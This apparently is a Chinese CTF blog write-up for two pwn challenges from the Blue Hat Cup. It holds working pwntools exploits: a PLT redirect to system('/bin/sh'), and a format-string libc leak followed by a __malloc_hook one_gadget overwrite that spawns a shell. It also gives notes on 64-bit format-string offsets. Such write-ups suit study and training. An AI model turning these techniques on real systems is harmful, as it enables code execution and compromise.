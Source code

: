 ```yaml
---
title: 蓝帽杯PWN
date: 2021-09-17 10:41:12
tags: 
    - 64位格式化字符串
    - plt表
---
```


## Cover

### exp

```python
#!/usr/bin/env python
from pwn import *
p = process("./pwn")
raw_input()
payload = p32(0x80484D6+1)
payload += "\x30"
p.send(payload)
p.send("/bin/sh\x00")
p.interactive()
```
* 本来是想改下一个`read()`函数的`push 0xa`，使其栈溢出，但是没达到目的.
* 之后就转向打plt表了，`pus(ptr) -> system(ptr)`

## hangman（绞死那个人）

### exp

```python
#!/usr/bin/env python
from pwn import *

binary = "./pwn"
lib = "/lib/x86_64-linux-gnu/libc.so.6"
p = process(binary)
elf = ELF(binary)
libc = ELF(lib)
context.log_level = "debug"

s = lambda buf: p.send(buf)
sl = lambda buf: p.sendline(buf)
sa = lambda delim, buf: p.sendafter(delim, buf)
sal = lambda delim, buf: p.sendlineafter(delim, buf)
sh = lambda: p.interactive()
r = lambda n=None: p.recv(n)
ra = lambda t=tube.forever:p.recvall(t)
ru = lambda delim: p.recvuntil(delim)
rl = lambda: p.recvline()
rls = lambda n=2**20: p.recvlines(n)
trs = lambda n: libc.address+n
guess = lambda n: p.sendlineafter("Guess a letter:",n)

def toleaklibc():
	sl("AAAA"+"%6$p")
	guess("A")
	guess("A")
	ru("Guess a letter:AAAA")
	libc.address = int(ru("\n"),16)-libc.sym["_IO_2_1_stdout_"]
	info("libc addr => 0x%x"%libc.address)
def change(addr,value):
	payload = ""
	payload += "DDDD"
	payload += "DDDD"
	payload += "BBB" 
	payload += "%%%05dc"%(value)
	payload += "%15$hn"
	payload += p64(addr)
	print(payload)
	ru("Enter a word:")
	sl(payload)
	guess("D")
	guess("D")
	guess("D")
	guess("B")
	guess("B")
def trigger():
	sl("AAAA"+"%100000c")
	guess("A")
	guess("A")
	guess("A")

toleaklibc()
malloc_hook = libc.sym["__malloc_hook"]

ogg = [libc.address+_ for _ in (0x45226,0x4527a,0xf03a4,0xf1247)]
og = ogg[1]

change(malloc_hook,0xffff&og - 0xb)
change(malloc_hook+2,0xffff&(og>>16) - 0xb)
trigger()

sh()

# b *$rebase(0x13B9)
# b *$rebase(0x136D)

# 0x45226 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL

```
* Tosay
    * 64bit的格式化字符串,`%6$p`，刚好是`rsp`指向的位置，接着以此向`rbp`数
    * `%1$p => rsi`
    * `%2$p => rdx`
    * `%3$p => rcx`
    * `%4$p => r8`
    * `%5$p => r9`
    * 64bit `%15$n`修改4byte  `0xffffffff&addr`
    * 64bit `%15$hn`修改2byte `0xffff&addr`
* `printf("%10000c")`会不会触发malloc，还是测试着试试看

